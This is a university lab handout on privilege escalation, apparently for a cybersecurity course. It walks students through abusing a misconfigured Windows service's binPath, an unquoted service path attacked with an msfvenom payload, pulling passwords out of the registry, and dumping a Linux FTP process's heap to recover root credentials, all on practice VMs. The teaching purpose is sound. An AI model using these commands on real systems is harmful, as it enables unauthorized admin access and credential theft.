# Lab 4: Privilege Escalation (NOT READY)

READ: Any knowledge and techniques presented here are for your learning purposes only. It is **ABSOLUTELY ILLEGAL** to apply the learned knowledge to others without proper consent/permission, and even then, you must check and comply with any regulatory restrictions and laws.

## 4.0. Introduction

You will need your Kali VM, Metasploitable VM, and Windows VM. Refer to previous lab instructions if you haven't got those VMs already.

## 4.1. VM Setup

You will need this VM set up for this lab:

* [Pre-built Debian Linux VM](https://drive.google.com/file/d/0B6EDpYQYL72rQ2VuWS1QR2ZsUlU/view?resourcekey=0-JgB-ugTWuHTZqjHvKTM9yg) (username: `user` / password: `password321`, username: `root` / password: `password123`)

### 4.1.1 Windows VM Setup

Install the Windows 7 VM via the ISO, similar to the Windows installation done previously in [Lab 2](https://uwacyber.gitbook.io/cits3006/cits3006-labs/lab-2-malware#2.0.-setup-windows-vm). Once you have created an admin account and are now able to access the desktop, complete the following steps:

1. Login to the Windows VM using a user account that has administrator privileges.
2. Ensure the Windows VM does not have a user account named 'user'. If it exists, delete it.
3.  Copy the following [setup script](https://github.com/sagishahar/lpeworkshop/blob/master/lpe\_windows\_setup.bat) (lpe\_windows\_setup.bat) to a writeable location on a Windows VM (the Desktop directory is fine). You can right click on the "Raw" button and "Save as..." a .bat file. Alternatively, perform a wget of the file:

    ```
    wget https://raw.githubusercontent.com/sagishahar/lpeworkshop/master/lpe_windows_setup.bat -o lpe_windows_setup
    ```
4. Right click on the copied setup file and ensure to select from the pop-up menu 'run as Administrator'. This will setup the Windows system for the subsequent exercises.
5. Take note of the resulting output. One of the executed tasks is to create a new user account `hank` with password `password321`.

<figure><figcaption></figcaption></figure>

1. Restart the Windows VM and login to `hank`.
2. Copy the following [Tools](https://drive.google.com/file/d/1Lgg3HXXltB7ZD3F5YSbRl6FX7h\_mPzFU/view) 7z archive to the Desktop and extract it. You may need to download [7-zip](https://www.7-zip.org/download.html) to perform the extraction. The password is `lpeworkshop`.


If you have issues downloading 7-zip or WinRAR or otherwise have difficulty accessing certain webpages due to a `NET::ERR_CERT_DATE_INVALID` Error, you will need to perform the following:

1. Open `certmgr.msc` by searching for it in the Windows search.
2. Find and delete the `DST ROOT CA X3` certificate. This certificate will have expired around 30-Sept-2021.
3. Download and install the [`ISGR ROOT`](https://letsencrypt.org/certs/isrgrootx1.der) certificate. Place this certificate in the "Trusted Root Certificate Authorities Folder".
4. Restart your VM


Additionally, you may want to install the "Guest Additions/Tools" to improve your user experience (e.g. full resolution display, etc.). You will first need to download and install the [Windows 7 Service Pack 1](https://support.microsoft.com/en-us/windows/install-windows-7-service-pack-1-sp1-b3da2c0f-cdb6-0572-8596-bab972897f61), after which you can then install your emulator's guest additions equivalent. This step is not mandatory.

## 4.2 Windows Privilege Escalation

### 4.2.1 Insecure Service Permissions

Each service has an Access Control List (ACL) that specifies specific permissions to a certain service.

Some permissions are pretty harmful like being:

* able to query the configuration of the service: `sc qc <service>`
* able to check the current status of the service: `sc query <service>`
* able to start and stop the service: `net start/stop <service>`
* and change the configuration of the service: `sc config <service> <option>= <value>`

If a user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own, including a reverse shell. Let's discover the running services with any service enumeration tool, such as [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) or by typing `Get-Service`. You will find an exhaustive list of services, one of which is the `daclsvc` service.

<figure><figcaption></figcaption></figure>

We'll need a tool named AccessChk, which you can download from the main site:

```
https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk
```

Or a copy from our github repo:

```
wget https://github.com/uwacyber/cits3006/raw/2023S2/cits3006-labs/files/AccessChk.zip -o accesschk.zip
```

Once downloaded, extract the files.

Using the `accesschk.exe` tool, you can look at which services the user `hank` has permissions over:

```
.\accesschk64.exe -uwcqv "hank" *
```

<figure><figcaption></figcaption></figure>

We've confirmed that `user` has RW (read-write) permissions over the `daclsvc` service (the first line), including the `SERVICE_CHANGE_CONFIG` permission which grants the caller the right to change the executable file that the system runs. Thus, this permission should be granted only to administrators. What we can do now is elevate the permissions of this user to the administrator through this misconfigured service. We first check our current group membership for hank:

<figure><figcaption></figcaption></figure>

We first have to stop the service we wish to modify:

```
net stop daclsvc
```

Now we execute the command to add hank to the administrators group:

```
sc.exe config daclsvc binPath= "net localgroup administrators hank /add"
```


Note the space after `binPath=`


<figure><figcaption></figcaption></figure>

Now restart the service and check whether hank has been added to the administrators group or not.

<figure><figcaption></figcaption></figure>

Using the command `sc.exe qc daclsvc`, we can also see the binary path that we have altered for the `daclsvc` service. Note the BINARY\_PATH\_NAME variable.

<figure><figcaption></figcaption></figure>


With this service's misconfigured permissions, we can actually modify the binary path to contain whatever commands we want, such as the running of a reverse shell. You simply change the `binPath=` to be the path to a reverse shell executable, then the reverse shell will start whenever the service is called. You can manually start the service with `net start daclsvc`. Try this out as an exercise!


In an admin cmd, run the command `net localgroup administrators hank /delete` to remove the user from the administrators list as a preparation for the next exercises.

### 4.2.2 Unquoted Service Path

Services whose executable path contains spaces and isn't enclosed within quotes can lead to a privilege escalation. When a service is created whose executable path contains spaces and isn’t enclosed within quotes, this leads to a vulnerability known as Unquoted Service Path which allows a user to gain SYSTEM privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is). if the service is not enclosed within quotes and is having spaces, it would handle the space as a break and pass the rest of the service path as an argument. This can be exploited to execute an arbitrary binary when the vulnerable service starts, which could allow to escalate privileges to SYSTEM.

For this exercise, there will be a vulnerable service called `unquotedsvc` in your system. Inspect its configuration with `sc qc unquotedsvc`.



We see that the binary path is missing the quotations around it. The path here is to the service .exe. Take note of the directory path itself, as this is where we can drop our malicious executable.

We are going to create a malicious executatble that takes advantage of this vulnerability. This executable will performm a similar task to 4.2.1; it will grant the user administrator permissions. We will create this .exe in Kali with the command:

```
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
```



The name `common.exe` is innocuous enough. Copy this .exe over to the Windows VM and place it within the `C:\Program Files\Unquoted Path Service` directory. In cmd, execute the service via `net start unquotedsvc`.

Once agian, confirm that this user's permissions have been elevated via `net localgroup administrators`. You should see `user` in the administrators list. Of course, you could plant any .exe you wanted, including reverse shells, etc.

### 4.2.3 Password Mining (Registry)

Password mining refers to the process of searching for and enumerating encrypted or clear-text passwords stored in persistent or volatile memory on the target system. In this exercise, we'll try to discover passwords stored in registry keys which may or may not be encrypted. One of these credential sets may have elevated permissions...

One place we can check is the automatic login credentials. Windows allows a user to automate the logging in process by storing passwords and other pertinent information in the registry database. Locate the default credentials using these commands in cmd:

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUsername
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
```



We see the credentials of our user with non-administrator permissions in plaintext. We can also try look at any credentials stored by PuTTY, a popular SSH client. For this lab, there is a PuTTY session open, for which we can have a look at the login credentials of a user for this session:

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\BWP123F42 -v ProxyUsername
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\BWP123F42 -v ProxyPassword
```



We can see the username and password for our account clearly as plaintext. Not good! Let's try another SSH service, TightVNC. Query the registry with:

```
reg query HKEY_CURRENT_USER\Software\TightVNC\Server
```



We see two passwords, both seem to be encrypted in some way. We can try and decrypt them using the `vncpwd` tool:

```
C:\Users\User\Desktop\Tools\vncpwd\vncpwd.exe [Encrypted Password]
```



We see the password `pass123` is returned for one of the given passwords. You can do the same with the other password. Clearly, these tools are able to uncover passwords from registry.

## 4.3 Linux Privilege Escalation

### 4.3.1 Password Mining (Memory)

We can also similarly try to find passwords by digging into memory. First, let's establish an FTP server from our Kali to our Linux machines:

```
msfconsole
use auxiliary/server/ftp
set FTPUSER user
set FTPPASS password321
run
```



The `user` and `password321` here are the credentials to be used when connecting to the server. Note that they are also they user credentials of the Linux VM user account. We can then connect to this server on our Linux via:

```
ftp [Kali VM IP Addr]
user
password321
```



After which, exit the ftp using ctrl+z or cmd+z. Let's now try to look at the heap of the ftp service we just engaged with and search inside of it for some credentials. Let's take a look at any running ftp services:

```
ps -ef | grep ftp
```



Make note of the PID of the ftp process. Now to get the memory dump:

```
gdb -p [FTP PID]
info proc mappings
```



Make note of the start and end memory addresses of the \[heap]. Press 'q' to return, then enter:

```
dump memory /tmp/mem [Start Address] [End Address]
```

This will dump the memory to a file - /tmp/mem. We can then inspect this file to see if there are any password related things in there:

```
strings /tmp/mem | grep passw
```



We see the credentials `root` and `password123` in plaintext, which are the root credentials for the Linux VM.

### 4.3.2 File Permissions (SUID Binary - Environment Variables #1)

## 4.X Summary

add summary...

Next up, web security.

**Preparation**: We will be using docker to host web services for testing. It should be already loaded on Kali, but if it isn't please have it ready.


M1/M2 users: setting up the Windows Server 2019 is extremely slow due to emulation (\~2 hours), but it is a good learning exercise. So you should try doing this before coming to the lab.

I also provide you a preconfigured Windows Server 2019 image for UTM that you can download (see Lab 5 for details), but please note the image size is 10GB.

